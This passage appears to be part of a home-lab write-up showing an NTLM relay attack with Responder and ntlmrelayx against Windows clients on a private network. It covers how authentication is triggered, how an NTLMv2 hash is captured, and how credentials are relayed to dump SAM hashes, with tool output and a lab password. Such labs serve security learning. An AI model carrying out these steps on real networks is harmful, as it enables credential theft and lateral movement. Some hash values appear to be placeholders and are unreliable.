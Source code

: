 **Output**:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections
```

This confirmed that ntlmrelayx was successfully running and listening for relayed authentication attempts.

#### **4.3 Triggering Authentication**

On Windows Client 1 (192.168.56.104), logged in as `elvisp@myroot.local` with password `@pr1lf00l`. Triggered an NTLM authentication attempt to be captured by Responder:

- **Method 1: File Explorer**:
  - Opened File Explorer.
  - In the address bar, typed `\\fake-server\share` (a non-existent server).
  - Pressed Enter.
- **Method 2: Command Prompt** (if needed):
  ```cmd
  net use * \\non-existent-server\c$
  ```

This action caused the client to broadcast an LLMNR/NBT-NS request, which Responder intercepted, pretending to be the requested server.

#### **4.4 Capturing and Relaying Hashes**

**Responder Output**:
When the authentication attempt was triggered, Responder captured the NTLMv2 hash:

```
[SMB] NTLMv2-SSP Client   : 192.168.56.104
[SMB] NTLMv2-SSP Username : MYROOT\elvisp
[SMB] NTLMv2-SSP Hash     : elvisp::MYROOT:5e4ab35219f425dd:1A2B3C4D5E6F7G8H9I0J:0101000000000000C0653150DE09D201...
```

**ntlmrelayx Output**:
ntlmrelayx immediately relayed the captured credentials to Client 2 (192.168.56.105):

```
[*] SMBD-Thread-4: Connection from MYROOT/elvisp@192.168.56.104 controlled, attacking target smb://192.168.56.105
[*] Authenticating against smb://192.168.56.105 as MYROOT/elvisp SUCCEED
[*] Dumping local users
[*] Dumping password policy
[*] Password complexity is enabled
[*] Minimum password length is 7
[*] Dumping SAM hashes
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
User1:1001:aad3b435b51404eeaad3b435b51404ee:579da618cfbfa85247acf1f800a280a4:::
```
